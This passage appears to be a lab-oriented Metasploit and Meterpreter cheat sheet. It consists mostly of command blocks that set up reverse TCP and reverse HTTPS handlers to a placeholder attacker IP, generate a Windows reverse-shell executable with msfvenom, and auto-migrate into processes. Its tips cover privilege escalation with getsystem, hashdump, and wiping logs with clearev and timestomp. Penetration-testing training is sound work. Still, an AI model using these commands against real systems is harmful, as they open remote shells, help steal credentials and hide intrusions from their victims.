 Reverse HTTPS alternative (more egress-friendly)
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST <YOUR_ATTACKER_IP>
set LPORT 443
set ExitOnSession false
exploit -j
```

Auto-migrate on session open (handler advanced option)
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_ATTACKER_IP>
set LPORT 4444
set ExitOnSession false
set AutoRunScript post/windows/manage/migrate
exploit -j
```

## Practical tips
- Prefer matching architecture: use x64 Meterpreter for x64 targets to avoid WOW64 limitations and improve reliability of features like hashdump.
- Stabilize early: migrate into a stable, user-owned process (e.g., explorer.exe) after landing a session.
- Use reverse_https for realistic egress; reverse_tcp is fine for labs.
- Keep handlers alive: ExitOnSession false and run them as jobs (exploit -j) to catch multiple sessions or reconnects.
- Minimal footprint: avoid unnecessary shell spawns; do as much as possible via Meterpreter built-ins.
- Quoting/paths: quote Windows paths with spaces and escape backslashes when needed.
- Post modules: background your session to run post modules in msfconsole with SESSION set.
- OPSEC in labs: clearev and timestomp exist, but use only if the exercise expects it.
- If getsystem fails: check UAC, integrity level, and try different vectors (other local privilege escalation modules) or token impersonation if tokens are available.
- Networking: prefer enumeration via Meterpreter first; pivoting/port forwarding is typically covered later—don’t mix too many features at once in fundamentals.

## Minimal cheat sheet (one-screen flow)
```
# Handler (Windows x64 reverse TCP)
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <ATTACKER_IP>
set LPORT 4444
set ExitOnSession false
exploit -j

# (Optional) Generate payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f exe -o meter.exe

# Sessions
sessions -l
sessions -i 1

# Baseline enum
sysinfo
getuid
ipconfig      # Windows
ifconfig      # Linux
ps

```